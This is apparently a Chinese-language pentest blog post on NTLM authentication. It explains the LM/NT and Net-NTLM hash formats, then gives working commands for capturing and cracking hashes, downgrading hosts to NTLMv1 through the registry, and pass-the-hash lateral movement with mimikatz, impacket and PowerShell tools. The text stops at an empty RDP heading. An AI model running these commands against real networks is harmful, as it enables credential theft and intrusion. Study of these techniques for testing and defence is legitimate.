 ```yaml
---
title: NTLM认证与利用
date: 2020-12-31 23:59:52 +0800
categories: [域安全, TA0008横向移动]
tags: [NTLM, pass-the-hash, TA0008横向移动]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# **原理**

## 一、Net-NTLM协议

[http://d1iv3.me/2018/12/08/LM-Hash%E3%80%81NTLM-Hash%E3%80%81Net-NTLMv1%E3%80%81Net-NTLMv2%E8%AF%A6%E8%A7%A3/](http://d1iv3.me/2018/12/08/LM-Hash、NTLM-Hash、Net-NTLMv1、Net-NTLMv2详解/)

## 1. LM Hash与NT Hash

LM Hash与NT Hash，密码根据固定算法转成的两种Hash，LM Hash更容易被破解

NTLM Hash = LM Hash + NT Hash，也有的会把NTLM Hash等同于NT Hash

## 2. Lan Manager认证 与 NT Lan Manager

其中NT Lan Manager有两个版本：Net-NTLMv1，Net-NTLMv2。这三个都属于认证协议，都是基于challenge/reponse的，但是用的Client Hash及对challenge加密方法不同。

在NT Lan Manager中，客户端最后给服务器的响应，称为**Net-NTLMv1 Hash及Net-NTLMv2 Hash**。

Lan Manager: 使用LM Hash

Net-NTLMv1: 使用LM Hash和NT Hash  

```
//Net-NTLMv1 Hash格式
username::hostname:LM response:NTLM response:challenge
```

Net-NTLMv2: 使用NT Hash

```
//Net-NLTMv2 Hash格式
username::domain:challenge:HMAC-MD5:blob
```



**工作组环境：**



![img](/assets/img/clipboard.png)

**域环境：**

![img](/assets/img/clipboard-1599139168229.png)

## 3. 各个版本对LM和NTLM的支持

![img](/assets/img/t01b500665781a9a455.png)



![img](/assets/img/t01004834cdf230e43d.png)

如果空密码或者不储蓄LM Hash的话，抓到的LM Hash是`AAD3B435B51404EEAAD3B435B51404EE`，这里的LM Hash值没有意义。



# 利用

## 一、 Hash窃取与破解

### 1. hashcat

Hashcat支持超过200种高度优化的hash算法，其中和NTLM hash相关的有4个，分别为NetNTLMv1、NetNTLMv1+ESS、NetNTLMv2和NTLM。

破解NetNTLMv1：[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-Net-NTLMv1介绍/)

```
username::hostname:LM response:NTLM response:challenge
```

破解NetNTLMv2：[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-NTLM-hash和Net-NTLM-hash介绍/)

```
username::domain:challenge:HMAC-MD5:blob
```

![img](/assets/img/clipboard-1599139397363.png)

### 2. Hash窃取与破解

- 同一网络内嗅探
- 中间人攻击
- 伪造服务器诱使用户输入凭据，在服务端收取Net-NTLM Hash

工具：

https://github.com/lgandx/Responder

https://github.com/Kevin-Robertson/Inveigh  

感觉不是每次都能抓到...



![img](/assets/img/clipboard-1599139437121.png)



#### 例1） 拿下文件服务器后，在服务器上抓包获取NTLM Respnse

> 如果获得了内网一个文件服务器的权限，那么内网中的其他主机在使用界面尝试访问该服务器时，首先会将本机的密码Hash发送至服务器进行验证，在服务器端抓取数据包能够获得NTLM Response，对NTLM Response的格式进行解析，提取特定信息，使用Hashcat尝试字典破解或者暴力破解，就有可能还原出用户本机的明文口令
>
> [渗透技巧——利用netsh抓取连接文件服务器的NTLMv2 Hash](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8netsh%E6%8A%93%E5%8F%96%E8%BF%9E%E6%8E%A5%E6%96%87%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTLMv2-Hash/)

```
netsh trace start capture=yes persistent=yes traceFile="c:\\test\\snmp1.etl" overwrite=yes correlation=no protocol=tcp ipv4.address=192.168.62.130 keywords=ut:authentication

Netsh trace stop
```

使用netsh抓包，得到 .etl 文件 -> windows message analyzer将其转换成.cap格式 -> wireshark 将其转为.pcap格式 -> python scapy模块自动解析数据包，提取NTLM Respnse。



#### 例2) 拿下文件服务器后，利用.scf或desktop.ini文件使得访问文件服务器的用户强制访问攻击者服务器，在攻击者服务器上抓包获取NTLM Hash



### 3. 降级

Net-NTLMv2 Hash暴力破解和字典破解难度比较高，如果有管理员权限，可将Lan Manager身份验证级别由Net-NTLMv2降为Net-NTLMv1

[https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D/](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-Net-NTLMv1介绍/)

修改注册表：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

实现工具：https://github.com/eladshamir/Internal-Monologue



## 二、Pass the Hash

需要攻击使用了NTLM认证的服务

### 1. IPC$，Winrm

**mimikatz**

```
privilege::debug
sekurlsa::pth /user:dell /domain:ring2.com /ntlm:B9E0CFCEAF6D077970306A2FD88A7C0A /run:powershell.exe
```

```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force
Restart-Service WinRM
Enter-PSSession -ComputerName win10-pc3
```

![image-20201122131437489](/assets/img/image-20201122131437489.png)

创建定时任务来执行命令，at 命令或schtasks命令，启动的子进程是System权限

```
PS C:\Windows\system32> at \\192.168.240.128 4:37PM C:\Windows\System32\calc.exe
AT 命令已弃用。请改用 schtasks.exe。

新加了一项作业，其作业 ID = 3
```

![img](/assets/img/36-367970866.png)



**smbexec.py**

```
smbexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A ./dell@192.168.240.147 -debug
```

**psexec.py**

```
psexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A ./dell@192.168.240.147 -debug
```

**Invoke-SMBExec.ps1**

```
Invoke-SMBExec -Target #{host_ip} -Username "#{host_username}" -Hash B9E0CFCEAF6D077970306A2FD88A7C0A -Command "powershell.exe -c sleep 10;stop-process $pid -Force;"  -Verbose;
```



### 2. WMI

**wmiexec.py**

```
wmiexec.py -hashes :B9E0CFCEAF6D077970306A2FD88A7C0A dell@192.168.240.147 -debug
```

**Invoke-WMIExec.ps1**

```
Invoke-WMIExec -Target #{host_ip} -Username "#{host_username}" -Hash B9E0CFCEAF6D077970306A2FD88A7C0A -Command "powershell.exe -c sleep 10;stop-process $pid -Force;"  -Verbose;
```



### 3. RDP

